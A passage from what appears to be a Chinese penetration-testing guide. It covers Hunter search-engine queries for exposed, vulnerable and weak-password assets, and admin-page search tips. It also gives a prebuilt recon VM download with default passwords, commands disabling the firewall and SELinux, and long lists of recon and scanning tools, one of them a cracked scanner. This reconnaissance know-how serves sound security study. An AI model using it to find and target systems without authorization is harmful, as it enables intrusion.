- **产品定位**：奇安信推出的"攻击面搜索"引擎，聚焦**可被利用的互联网资产**。网址：https://hunter.qianxin.com/
- **数据来源**：流量探针、证书日志、DNS、GitHub/网盘泄漏、FOFA合作节点，日更十亿条。
- **核心差异**：自带「漏洞验证+弱口令+钓鱼」标签，红队快速找入口，蓝队做暴露面收敛。
- **账号体系**：
  - 免费版 50 积分/日
  - 教育版 200 积分/日（教师邮箱+教务证明）
  - 政企版不限积分，含API、订阅告警

###### 8.4.2.2.2 Hunter基础语法

| 字段       | 示例                  | 说明         |
| ---------- | --------------------- | ------------ |
| ip         | `ip="202.119.1.0/24"` | 单IP或C段    |
| domain     | `domain="*.edu.cn"`   | 子域通配     |
| cert       | `cert="tsinghua"`     | 证书关键字   |
| title      | `title="后台登录"`    | 页面标题     |
| header     | `header="thinkphp"`   | 响应头       |
| body       | `body="password"`     | HTML正文     |
| is_vul     | `is_vul="T"`          | 已验证漏洞   |
| is_weak    | `is_weak="T"`         | 检测到弱口令 |
| is_fishing | `is_fishing="T"`      | 钓鱼/仿冒    |
| after      | `after="2024-01-01"`  | 新增资产     |
| before     | `before="2023-12-31"` | 历史资产     |

**逻辑运算**：`&&` 与，`||` 或，`!` 非，`()` 优先级  
**大小写**：默认不区分，用 `"*"` 强制通配

###### 8.4.2.2.3 Hunter热门语法

| 语法                                              | 含义                                          |
| ------------------------------------------------- | --------------------------------------------- |
| ip.tag="CDN"                                      | 查询包含IP标签"CDN"的资产 (查看枚举值)        |
| web.similar="baidu.com:443"                       | 查询与baidu.com:443网站的特征相似的资产       |
| web.similar_icon=="17262739310191283300"          | 查询网站icon与该icon相似的资产                |
| web.similar_id="3322dfb483ea6fd250b29de488969b35" | 查询与该网页相似的资产                        |
| web.tag="登录页面"                                | 查询包含资产标签"登录页面"的资产 (查看枚举值) |
| domain.suffix="qianxin.com"                       | 搜索主域为"qianxin.com"的网站                 |
| web.icon="22eeab765346f14faf564a4709f98548"       | 查询网站icon与该icon相同的资产                |
| ip.port_count>"2"                                 | 搜索开放端口大于2的IP（支持等于、大于、小于） |
| is_web=true                                       | 搜索web资产                                   |
| cert.is_trust=true                                | 搜索证书可信的资产                            |

###### 2.2.4 Hunterd 奇淫巧技

1.**通过网站标题关键词**

检索站点标题可以尝试带有“登录”、“管理”、“后台”、“中心”等关键词，这里我选择的是domain_suffix="baidu.com"&&title="登录"&&title="管理"，图中可以看到有2条匹配资产。



2. **快速过滤无效资产**

点击IP、域名、网站标题、状态码、ICP备案企业、地理位置，可以快速过滤想看/不想看的数据，例如下图：只看网站标题为`”登录-BOSS管家管家端“`的资产。

  

## 附录：自动化工具安装使用

### 虚拟机CentOS（4.58G）：

这个虚拟机里面已经安装好了ARL灯塔和水泽ShuiZe
CentOS-arl-shuize
【登录密码是123456】
链接: https://pan.baidu.com/s/1_idTfEWYvH5xWhzitIufpg?pwd=pyh1 

提取码: pyh1 

### 虚拟机中工具放在/root目录下：



### 水泽进入对应目录，输入python3 Shuize.py 即可



### ARL灯塔使用：

进入灯塔路径下执行命令：
关闭容器
`docker-compose down`

重启docker
`systemctl restart docker`

启动灯塔，注意命令执行路径是在`~/docker_arl`
`docker-compose up -d`





```bash
# 关闭防火墙和SELINUX
[root@localhost ~]# systemctl stop firewalld && systemctl disable firewalld
[root@localhost ~]# setenforce 0
[root@localhost ~]# sed -i 's/SELINUX=enforcing/SELINUX=disabled/' /etc/selinux/config
```

如果下面访问不了，重新执行上面的docker-compose相关命令

> 注意用HTTPS协议访问

在物理机浏览器通过虚拟机IP访问，访问格式：
`https://虚拟机IP:5003`

账号：`admin`
密码：`arlpass`



登录后可以导入指纹，增加指纹识别概率。

## 附录：网安常用在线工具

### 域名查询ip

https://ipw.cn/dns/
http://www.ip33.com/dns.html
https://whois.chinaz.com/
https://www.itdog.cn/dns/
https://site.ip138.com/

### ip反查域名

https://ip.tool.chinaz.com/
https://site.ip138.com/
https://ipw.cn/dns/

### 在线ping

https://www.itdog.cn/ping/
https://ping.chinaz.com/
https://www.cesu.net/ping/

### 路由追踪（traceroute）

https://www.itdog.cn/traceroute/
https://coding.tools/cn/traceroute
https://zhale.me/traceroute/

### 备案查询

https://www.tance.cc/icp
https://www.chaicp.com/icp
https://icp.chinaz.com/

### 子域名查询

https://www.dnsgrep.cn/
http://tools.bugscaner.com/subdomain/

### 指纹识别

https://github.com/P001water/P1finger/releases

### ctf工具箱

https://ctf.bugku.com/tools.html
https://tools.qsnctf.com/
http://www.hiencode.com/

### 谷歌镜像站

https://so.niostack.com/search
https://g.savalone.com/
https://gsearch.g.shellten.top/

### Windows提权辅助工具

https://tools.zjun.info/getmskb/
http://bypass.tidesec.com/exp/

## 附录：自动化信息收集轮子

##### https://redteam.wang/Quanpage/

```
### 资产探测
iSafeBlue/TrackRay: 溯光 (TrackRay) 3 beta⚡渗透测试框架（资产扫描|指纹识别|暴力破解|网页爬虫|端口扫描|漏洞扫描|代码审计|AWVS|NMAP|Metasploit|SQLMap）
TideSec/Mars: Mars(战神)——资产发现、子域名枚举、C段扫描、资产变更监测、端口变更监测、域名解析变更监测、Awvs扫描、POC检测、web指纹探测、端口指纹探测、CDN探测、操作系统指纹探测、泛
guimaizi/域名收集与监测V3.0
Gourdscan v2.1 被动式漏洞扫描系统
LangziFun/BuTian_Spider: 2019 补天厂商爬虫与数据可视化文件打包
LangNetworkTopologys: 端口扫描，指纹识别，网站探测，结果整理
LangSrcCurise: SRC子域名资产监控
EmYiQing/Rain: 漏洞扫描系统-正在更新
legion: Automatic Enumeration Tool based in Open Source tools
pigat 被动信息收集聚合工具
yogeshojha/rengine: 资产收集聚合工具
reNgine：一款针对Web应用渗透测试的自动化网络侦察框架
reNgine 自动化网络侦查框架的国内安装与报错的解决方法 | Teams Six
OWASP/Amass: 深度攻击面测绘和资产发现
theHarvester-资产探测工具收集子域邮箱等-laramies
wgpsec/Perception: 基于狼组安全服务(社区)平台API打造的一款在线信息收集程序
chaitin/xray: 一款完善的安全评估工具，支持常见 web 安全问题扫描和自定义 poc | 使用之前务必先阅读文档
贡献POC xray 安全评估工具文档
Medusa: 漏洞扫描器、漏洞利用、子域名探测、C段扫描、资产发现、敏感信息检测等功能一体化平台。目前收录漏洞200+ http://medusa.ascotbe.com
灯塔ARL资产侦察灯塔系统旨在快速侦察与目标关联的互联网资产，构建基础资产信息库。 协助甲方安全团队或者渗透测试人员有效侦察和检索资产，发现存在的薄弱点和攻击面。TophantTechnology/AR
phantom0301/PTscan: Phantom scanner——An interface friendly and lightweight web assets scanner
crawlab: 分布式爬虫管理平台，支持任何语言和框架-crawlab-team
AUTO-EARN: 自动化收集并扫描一个利用OneForAll进行子域收集、Shodan API端口扫描、Xray漏洞Fuzz、Server酱的自动化漏洞扫描、即时通知提醒的漏洞挖掘辅助工具E-chocipher
Watchdog: webWatchdog是bayonet修改版，重新优化了数据库及web及扫描程序,加入多节点-CTF-MissFeng
teemo-域名收集及枚举工具-bit4woo
Url-Monitor: 基于django网站监控平台-k-fire
TScan-类似潮汐-dyboy2017
dyboy2017/WTF_Scan: 一款WEB端的在线敏感资产扫描器，扫描网站中的指纹、漏洞及相关敏感信息，针对已经识别的CMS指纹，进行二次0day扫描利用，一键GetShell也不是不可能！！！
DarkEye情报收集工具-zsdevX
Awheel: 分布式信息收集工-HatBoy
AppInfoScanner-移动端程序信息收集工具-kelvinBen
ProjectDiscovery开源资产搜集集合未看完
DHT爬虫ixiaofeng/crazyDhtSpider: 依托于swoole的PHP版本的DHT爬虫，磁力搜索站必备，有着奇高的效率。
weblive:批量主机存活测试 批量获取网站基本信息-aeverj
HXnineTails-多工具集成器-Cl0udG0d
hakrawler: Go Web爬虫，Web资产发现-hakluke
ProxyPool: 自动切换ip的代理池服务,无需任何依赖-shadow1ng
Diggy: apk信息收集提取信息工具-s0md3v
Apkatshu: APK分析工具-0xPwny
GoScan:web综合资产管理系统，适合红队、SRC等使用-CTF-MissFeng
github敏感信息搜集工具gsil的配置及使用_爱国小白帽-CSDN博客
Caesar-一个全新的敏感文件发现工具-thunderbarca
EHole: EHole(棱洞)-指纹状态码title红队重点攻击系统指纹探测工具ShiHuang-ESec
NetblockTool：查找公司拥有的网络块 不知道咋样-NetSPI
DamnWebScanner:类似xray结合burp-swisskyrepo
w13scan: (被动式安全扫描器)
w-digital-scanner/w12scan: 🚀 A simple asset discovery engine for cybersecurity. (网络资产发现引擎)
w-digital-scanner/w10scan: 全自动搜索互联网漏洞
ALScanner 安全检测系统
Glass快速批量指纹识别工具-s7ckTeam
c1y2m3/Subatk: Sublist3r优化版,添加web可视化页面以及masscan端口扫描
h4ckdepy/bayonet: bayonet是一款src资产管理系统，从子域名、端口服务、漏洞、爬虫等一体化的资产管理系统
WyAtu/Perun: Perun资产探测&漏洞扫描器，可用于内网是一款主要适用于乙方安服、渗透测试人员和甲方RedTeam红队人员的网络资产漏洞扫描器/扫描框架
Netsparker pro V5.3破解版，Web安全扫描器 体验盒子 关注网络安全
X-AutoXray: AutoScan 有多个目标时，调用xray+rad进行自动扫描-sv3nbeast
fofa-tool: 批量提取fofa查询-k-fire
timwhitez/crawlergo_x_XRAY: 360/0Kee-Team/crawlergo动态爬虫结合长亭XRAY扫描器的被动扫描功能
Frog-Fp: 🐸批量深度指纹识别框架-timwhitez
gshark-轻松有效地扫描敏感信息-madneal
SZhe_Scan-有web端碎遮SZhe_Scan Web漏洞扫描器，基于python Flask框架，对输入的域名/IP进行全面的信息搜集，漏洞扫描，可自主添加POC-Cl0udG0d
HXnineTails: python3实现的集成了github上多个扫描工具的命令行WEB扫描工具-Cl0udG0d
gowitness-一个golang, web截图工具-sensepost
pppXrayXray批量化自动扫描-Cl0udG0d
naozibuhao/SecurityManageFramwork
subfinder子域名查找工具,可以自行配置API接口，获取更多更全面的子域名-projectdiscovery
taomujian/linbing: 漏洞扫描系统本系统是对目标进行漏洞扫描的一个系统,前端采用vue技术,后端采用flask.核心原理是扫描主机的开放端口情况,然后根据端口情况逐个去进行poc检测,poc有110多个,包含绝
httpx快速获取域名标题、状态码、响应大小等等信息-projectdiscovery
naabu一个快速端口扫描仪-projectdiscovery
jiangsir404/POC-S: POC-T强化版本 POC-S -批量漏洞验证框架, 用于红蓝对抗中快速验证Web应用漏洞， 对功能进行强化以及脚本进行分类添加，自带dnslog等, 平台补充来自vulhub靶机及其他开源项目的高可
er10yi/MagiCude: 分布式端口（漏洞）扫描、资产安全管理、实时威胁监控与通知、高效漏洞闭环、漏洞wiki、邮件报告通知、poc框架
PenetrationTest-Tips-渗透测试姿势持续更新，渗透测试小技巧，渗透测试Tips-Power7089
TideSec/FuzzScanner: 一个主要用于信息搜集的工具集，主要是用于对网站子域名、开放端口、端口指纹、c段地址、敏感目录等信息进行批量搜集。
awvs13_batch_py3-针对 AWVS扫描器开发的批量扫描脚本，支持联动xray、burp、w13scan等被动批量-test502git
JKme/xscan: 代码垃圾的缝合怪扫描器
Vxscan-python3写的综合扫描工具-轮子组合怪-al0ne
wgpsec/IGScan: WgpSec Team IGScan 一款信息收集工具
cSubsidiary-利用天眼查查询企业子公司-canc3s
cDomain-利用天眼查查询企业备案-canc3s
subdomain_shell三个工具集合-子域名标题状态码收集subdomain_shell: 一键调用subfinder+ksubdomain+httpx 强强联合 从域名发现-->域名验证-->获取域名标题、状态码以及响应大小 最后保存结果,简化重复操作
domain_hunter_proburp插件 SRC挖洞、HW打点之必备！自动化资产收集；快速Title获取；外部工具联动-bit4woo
kscan-拼接多个工具的轮子-子域端口banner一键化-lcvvvv
assetfinder-查找与给定域相关的域和子域-tomnomnom
vajra：Vajra是一个高度可定制的基于目标和范围的自动Web黑客框架，可在Web应用程序渗透测试期间自动执行无聊的侦察任务和对多个目标的相同扫-r3curs1v3-pr0xy
Gospider-用Go语言编写的快速网络爬虫-爬取url-jaeles-project
XrayFofa-将xray和fofa完美结合的自动化工具,调用fofaAPI进行查询扫描,新增爬虫爬取扫描-Miagz
TeraSecTeam/ary: Ary 是一个集成类工具，主要用于调用各种安全工具，从而形成便捷的一键式渗透。
wgpsec/DBJ: 大宝剑-信息收集和资产梳理工具（红队、蓝队、企业组织架构、子域名、Web资产梳理、Web指纹识别、ICON_Hash资产匹配）
Digger-子域名收集工具从百度爬取子域名-admintony
ENScan-基于爱企查的一款企业信息查询工具-wgpsec
xundididi/Voyager: 一个安全工具集合平台，用来提高乙方安全人员的工作效率，请勿用于非法项目
Vulmap是一款漏洞扫描工具，可对Web容器、Web服务器、Web中间件以及CMS等Web程序进行漏洞扫描，并且具备漏洞利用功能。 相关测试人员可以使用vulmap检测目标是否存在特定漏洞，并且可以使用漏
ApkAnalyser-一键提取安卓应用中可能存在的敏感信息。-TheKingOfDuck
Glass针对资产列表的快速指纹识别工具-s7ckTeam
QingScan-一个漏洞扫描器粘合剂；支持 web扫描、系统扫描、子域名收集、目录扫描、主机扫描、主机发现、组件识别、URL爬虫、XRAY扫描、AWVS自动扫描、POC批量验证，SSH批量测试、vulmap-78778443
hanc00l/nemo_go: Nemo是用来进行自动化信息收集的一个简单平台，通过集成常用的信息收集工具和技术，实现对内网及互联网资产信息的自动收集，提高隐患排查和渗透测试的工作效率，用Go语言完全重构了原Python版本。
Goqi/Banli: Banli-高危资产识别和高危漏洞扫描工具
ExpLangcn/FuYao: FuYao 扶摇直上九万里！自动化进行资产探测及漏洞扫描｜适用黑客进行赏金活动、SRC活动、大规模攻击使用
POC-bomber-poc验证利用大量高威胁poc-exp快速获取目标权限，用于渗透和红队快速打点-tr0uble-mAker
ApolloScanner-缺POC自动化巡航扫描框架（可用于红队打点评估）-b0bac
linglong-调用xraypoc的漏扫可收集自产和爆破-awake
Fvuln-存活探测，poc扫描，弱口令爆破-d3ckx1
```